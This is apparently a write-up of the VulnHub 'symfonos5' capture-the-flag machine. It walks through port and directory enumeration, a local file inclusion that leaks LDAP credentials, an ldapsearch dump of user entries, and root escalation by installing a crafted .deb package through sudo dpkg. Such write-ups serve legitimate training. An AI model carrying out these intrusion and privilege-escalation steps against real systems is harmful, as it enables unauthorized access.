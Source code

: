 ```yaml
---
title: symfonos5
author: vulnhub
date: 2021-04-17 17:28:00 +5:30 
categories: [vulnhub , oscpLike]
tags: [LFI,LDAP,gtfobin dpkg]
---
```

# Namp

```
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 16:70:13:77:22:f9:68:78:40:0d:21:76:c1:50:54:23 (RSA)
|   256 a8:06:23:d0:93:18:7d:7a:6b:05:77:8d:8b:c9:ec:02 (ECDSA)
|_  256 52:c0:83:18:f4:c7:38:65:5a:ce:97:66:f3:75:68:4c (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
636/tcp open  ldapssl?
```
# Enumeration

Port 80 Enumeration

```
gobuster dir -u http://10.0.2.52/ -w /usr/share/dirb/wordlists/big.txt -s 200,301,302 -x html,txt,php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.52/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
2021/04/17 08:23:05 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.html       (Status: 403) [Size: 274]
/.htaccess            (Status: 403) [Size: 274]
/.htpasswd            (Status: 403) [Size: 274]
/.htaccess.txt        (Status: 403) [Size: 274]
/.htpasswd.html       (Status: 403) [Size: 274]
/.htaccess.php        (Status: 403) [Size: 274]
/.htpasswd.txt        (Status: 403) [Size: 274]
/.htpasswd.php        (Status: 403) [Size: 274]
/admin.php            (Status: 200) [Size: 1650]
/home.php             (Status: 302) [Size: 0] [--> admin.php]
/index.html           (Status: 200) [Size: 207]              
/logout.php           (Status: 302) [Size: 0] [--> admin.php]
/portraits.php        (Status: 200) [Size: 165]              
/server-status        (Status: 403) [Size: 274]              
/static               (Status: 301) [Size: 307] [--> http://10.0.2.52/static/]
                                                                              
===============================================================
2021/04/17 08:23:15 Finished
===============================================================
```
/admin.php /home.php dir are intresting 

/admin directory not vulnerble to sqli
 ![](\assets\img\vulnhub\symfonos5\admin.png)

when we try to access /home.php directory to redirect to /admin.php

fire brupsuite , checked the source Code , /home.php include url from server local host , here this leverage to LFI 
 ![](\assets\img\vulnhub\symfonos5\LFI.png)

 `/var/www/html/admin.php has the ldap creds init encoded with base64`

 ```bash
 echo "Y2V0a0tmNHdDdUhDOUZFVA==" | base64 -d
 ```


![]()
<h3>LDAP Enumeration</h3>

>ldapsearch -h 10.0.2.52 -p 389 -b "dc=symfonos,dc=local" -w 'qMDdyZh3cT6eeAWD' -D "cn=admin,dc=symfonos,dc=local"

```
┌──(root💀nucleus)-[~]
└─# ldapsearch -h 10.0.2.52 -p 389 -b "dc=symfonos,dc=local" -w 'qMDdyZh3cT6eeAWD' -D "cn=admin,dc=symfonos,dc=local"
# extended LDIF
#
# LDAPv3
# base <dc=symfonos,dc=local> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# symfonos.local
dn: dc=symfonos,dc=local
objectClass: top
objectClass: dcObject
objectClass: organization
o: symfonos
dc: symfonos

# admin, symfonos.local
dn: cn=admin,dc=symfonos,dc=local
objectClass: simpleSecurityObject
objectClass: organizationalRole
cn: admin
description: LDAP administrator
userPassword:: e1NTSEF9VVdZeHZ1aEEwYldzamZyMmJodHhRYmFwcjllU2dLVm0=

# zeus, symfonos.local
dn: uid=zeus,dc=symfonos,dc=local
uid: zeus
cn: zeus
sn: 3
objectClass: top
objectClass: posixAccount
objectClass: inetOrgPerson
loginShell: /bin/bash
homeDirectory: /home/zeus
uidNumber: 14583102
gidNumber: 14564100
userPassword:: Y2V0a0tmNHdDdUhDOUZFVA==
mail: zeus@symfonos.local
gecos: Zeus User

# search result
search: 2
result: 0 Success

# numResponses: 4
# numEntries: 3

```

from above Enumeration we got Username and password

`zeus:Y2V0a0tmNHdDdUhDOUZFVA==`

# PrivilageEsclation

![](\assets\img\vulnhub\symfonos5\sudodpkg.png)

dpkg linux package SUID can be run as root without  passwd

so first we need to create the .db package which contains the bash shell so that when it is extracted it `spawn the Bashshell`

fpm
: fpm is used to create the .db pacakge

> fpm -s dir -t deb -n exploit --before-install shell.sh .

```bash
zeus@symfonos5:/tmp$ sudo -u root /usr/bin/dpkg -i exploit_1.0_amd64.deb
Selecting previously unselected package exploit.
(Reading database ... 53057 files and directories currently installed.)
Preparing to unpack exploit_1.0_amd64.deb ...
root@symfonos5:/# cd /root
root@symfonos5:~# ls
proof.txt
root@symfonos5:~# cat proof.txt 
 
                    Congrats on rooting symfonos:5!
  
                                   ZEUS
              *      .            dZZZZZ,       .          *
                                 dZZZZ  ZZ,
     *         .         ,AZZZZZZZZZZZ  `ZZ,_          *
                    ,ZZZZZZV'      ZZZZ   `Z,`\
                  ,ZZZ    ZZ   .    ZZZZ   `V
        *      ZZZZV'     ZZ         ZZZZ    \_              .
.              V   l   .   ZZ        ZZZZZZ          .
               l    \       ZZ,     ZZZ  ZZZZZZ,
   .          /            ZZ l    ZZZ    ZZZ `Z,
                          ZZ  l   ZZZ     Z Z, `Z,            *
                .        ZZ      ZZZ      Z  Z, `l
                         Z        ZZ      V  `Z   \
                         V        ZZC     l   V
           Z             l        V ZR        l      .
            \             \       l  ZA
                            \         C          C
                                  \   K   /    /             K
                          A    \   \  |  /  /              /
                           \        \\|/ /  /
   __________________________________\|/_________________________
            Contact me via Twitter @zayotic to give feedback!

```